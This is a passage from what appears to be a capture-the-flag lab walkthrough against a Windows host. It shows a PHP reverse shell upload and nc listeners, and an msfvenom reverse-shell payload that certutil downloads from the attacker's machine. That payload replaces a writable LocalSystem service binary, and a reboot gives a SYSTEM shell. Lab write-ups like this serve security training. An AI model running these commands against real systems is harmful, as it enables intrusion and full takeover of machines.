Uploading Ivan-Sincek.php to `/fs/C/xampp/htdocs/Ivan-Sincek.php':
Progress: [=============================>] 100.0% of 9295 bytes succeeded.
<http://192.168.232.127:45332/Ivan-Sincek.php>
jerrenAs anticipated, the reverse shell was successfully triggered. Upon establishing the session, I confirmed that I was logged in as the user jerren .
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.232.127] 50253
SOCKET: Shell has connected! PID: 1852
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.
C:\\xampp\\htdocs>whoami
medjed\\jerren
Found local.txt
C:\\Users\\Jerren\\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is A41E-B108
Directory of C:\\Users\\Jerren\\Desktop
04/08/2022 08:55 AM <DIR> .
04/08/2022 08:55 AM <DIR> ..
01/28/2026 09:52 PM 34 local.txt
04/08/2022 07:57 AM 2,348 Microsoft Edge.lnk
2 File(s) 2,382 bytes
2 Dir(s) 16,503,840,768 bytes free
C:\\Users\\Jerren\\Desktop>type local.txt
830f...
To identify escalation vectors, I transferred PrivescCheck.ps1 from my local machine to the target host.
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (<http://0.0.0.0:80/>) ...
192.168.232.127 - - [29/Jan/2026 04:13:56] "GET /PrivescCheck.ps1 HTTP/1.1" 200 -
192.168.232.127 - - [29/Jan/2026 04:13:56] "GET /PrivescCheck.ps1 HTTP/1.1" 200 -
192.168.232.127 - - [29/Jan/2026 04:14:15] "GET /PrivescCheck.ps1 HTTP/1.1" 200 -
192.168.232.127 - - [29/Jan/2026 04:14:15] "GET /PrivescCheck.ps1 HTTP/1.1" 200 -
The script identified the password for the user jerren

It also identified a high severity “Image File Permission” vulnerability. The C:\\bd\\bd.exe service executes with LocalSystem privileges. However, all Authenticated Users possess WriteData , Delete , and GenericWrite permissions, meaning any user can modify, delete, or overwrite the service binary.
????????????????????????????????????????????????????????????????
? CATEGORY ? TA0004 - Privilege Escalation ?
? NAME ? Services - Image File Permissions ?
? TYPE ? Base ?
????????????????????????????????????????????????????????????????
? Check whether the current user has any write permissions on ?
? a service's binary or its folder. ?
????????????????????????????????????????????????????????????????
Name : bd
DisplayName : BarracudaDrive ( bd ) service
User : LocalSystem
ImagePath : "C:\\bd\\bd.exe"
StartMode : Automatic
Type : Win32OwnProcess
RegistryKey : HKLM\\SYSTEM\\CurrentControlSet\\Services
RegistryPath : HKLM\\SYSTEM\\CurrentControlSet\\Services\\bd
Status : Running
UserCanStart : False
UserCanStop : False
ModifiablePath : C:\\bd\\bd.exe
IdentityReference : NT AUTHORITY\\Authenticated Users (S-1-5-11)
Permissions : ReadData, WriteData, AppendData, ReadExtendedAttributes, WriteExtendedAttributes, Execute,
ReadAttributes, WriteAttributes, Delete, ReadControl, Synchronize, GenericRead, GenericExecute,
GenericWrite
[*] Status: Vulnerable - Severity: High - Execution time: 00:00:09.433
I generated a reverse shell payload using msfvenom and named it bd.exe to match the target service.
┌──(kali㉿kali)-[~/Desktop]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.236 LPORT=8000 -f exe -o bd.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: bd.exe
Before transferring the payload, I renamed the original service binary to bd_original.exe to avoid any file conflicts.
C:\\bd>move bd.exe bd_original.exe
1 file(s) moved.
C:\\bd>certutil -urlcache -split -f <http://192.168.45.236/bd.exe> bd.exe
**** Online ****
0000 ...
1c00
CertUtil: -URLCache command completed successfully.
To trigger the payload, a service restart was required. Checking whoami /priv revealed that the jerren account possessed SeShutdownPrivilege . I executed a system reboot using the shutdown /r command.
C:\\bd>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ==================================== ========
SeShutdownPrivilege Shut down the system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeUndockPrivilege Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SeTimeZonePrivilege Change the time zone Disabled
C:\\bd>shutdown /r
systemShortly after the system restarted, I received a reverse shell with SYSTEM privileges on my listener.
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 8000
listening on [any] 8000 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.232.127] 49669
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.
C:\\WINDOWS\\system32>whoami
whoami
nt authority\\system
Found proof.txt
C:\\Users\\Administrator\\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is A41E-B108
Directory of C:\\Users\\Administrator\\Desktop
12/02/2021 12:51 PM <DIR> .
12/02/2021 12:51 PM <DIR> ..
12/02/2021 12:51 PM 2,348 Microsoft Edge.lnk
01/28/2026 09:52 PM 34 proof.txt
2 File(s) 2,382 bytes
2 Dir(s) 16,420,249,600 bytes free
C:\\Users\\Administrator\\Desktop>type proof.txt
type proof.txt
ea2a...